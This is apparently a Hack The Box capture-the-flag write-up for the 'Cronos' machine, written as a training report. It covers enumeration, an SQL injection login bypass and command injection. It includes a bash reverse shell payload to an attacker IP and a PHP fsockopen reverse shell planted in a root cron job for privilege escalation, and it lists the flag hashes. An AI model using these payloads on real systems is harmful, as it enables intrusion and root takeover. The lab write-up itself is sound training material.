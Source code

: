 # HTB: Cronos  
## Engagement Overview
**Target:** Cronos
**Box IP:** 10.10.10.13
**Local IP:** 10.10.14.10
**Date:** 2025-07-12

---

### Objectives
- Exploit SQL injection vulnerability
- Achieve shell access and escalate to root via cron job abuse

---

## Service Enumeration

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- **Gobuster:** No useful results  
- **DNS Info (dig):**
  ```
  cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb.
  ```

---

## Exploitation

### Initial Access

**Vulnerability:**  
- SQL Injection on `admin.cronos.htb` login form  
- Payload: `' OR 1=1-- -`  

**Confirmation:**  
Ping test to attacker IP succeeded:
```
PING 10.10.14.10 (10.10.14.10): 64 bytes from 10.10.14.10: time=43.6 ms
```

**Command Injection:**  
Using Burp Suite Repeater:
```
command=ls+-l&host=/var/www
```
Response:
```
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 admin
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 html
drwxr-xr-x 13 www-data www-data 4096 May 10 2022 laravel
```

**Reverse Shell Payload:**  
```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
```

Shell acquired as `www-data`.

---

## Privilege Escalation

### Enumeration
- Discovered cron job running Laravel scheduler:
  ```
  * * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```

### Exploitation
- Poisoned artisan job to execute PHP reverse shell:
```php
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

- Shell established as `root`.

---

## House Cleaning
- Removed:
  - `linpeas.sh`
  - Malicious code from Laravel artisan
- No additional uploads or tools left behind

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized
- Burp Suite
- linPEAS
- netcat / listener

---

## Key Takeaways
- linPEAS highlighted numerous other potential vulnerabilities, but only the cron job was exploited
- This box served as good hands-on training for:
  - Manual SQL injection
  - Laravel-based cron job abuse
  - Gaining shell via Burp Suite command injection